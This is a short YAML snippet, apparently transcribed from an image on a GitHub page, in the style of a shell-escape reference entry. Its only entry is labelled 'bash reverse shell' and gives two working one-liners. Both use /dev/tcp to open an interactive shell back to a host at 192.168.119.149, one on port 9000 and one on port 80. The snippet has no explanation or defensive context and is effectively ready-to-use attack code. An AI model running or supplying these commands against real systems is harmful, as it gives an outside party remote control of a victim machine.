 ```yaml
---
functions:
  shell:
    - description: bash reverse shell
      code: |
        /bin/bash -i >& /dev/tcp/192.168.119.149/9000 0>&1
        
        0<&107-;exec 107<>/dev/tcp/192.168.119.149/80;sh <&107 >&107 2>&107
---
```

